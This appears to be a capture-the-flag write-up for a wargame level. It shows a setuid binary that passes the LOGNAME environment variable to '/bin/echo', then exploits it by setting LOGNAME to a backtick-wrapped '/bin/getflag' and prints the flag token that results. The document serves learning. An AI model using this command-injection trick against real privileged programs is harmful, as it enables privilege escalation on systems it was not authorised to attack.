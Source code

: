 Once again let's start by listing the files in the folder:
```
ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
As previously we find an executable, let's try to run it.
```
./level07
level07
```
As we did before, let's try to hexdump the file
```
hexdump -C level07
00000660  e8 00 00 00 00 5b 81 c3  8f 19 00 00 e8 1f fe ff  |.....[..........|
00000670  ff 83 c4 08 5b c3 00 00  03 00 00 00 01 00 02 00  |....[...........|
00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|
00000690  6f 20 25 73 20 00 00 00  01 1b 03 3b 30 00 00 00  |o %s ......;0...|
000006a0  05 00 00 00 28 fd ff ff  4c 00 00 00 7c fe ff ff  |....(...L...|...|
000006b0  70 00 00 00 18 ff ff ff  90 00 00 00 88 ff ff ff  |p...............|
000006c0  cc 00 00 00 8a ff ff ff  e0 00 00 00 14 00 00 00  |................|
```
It would look like they are using echo on an environmental variable.
Let's try to modify it.

```
export LOGNAME='`/bin/getflag`' # we are adding the `` so echo knows he has to launch the command
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Here we go :)
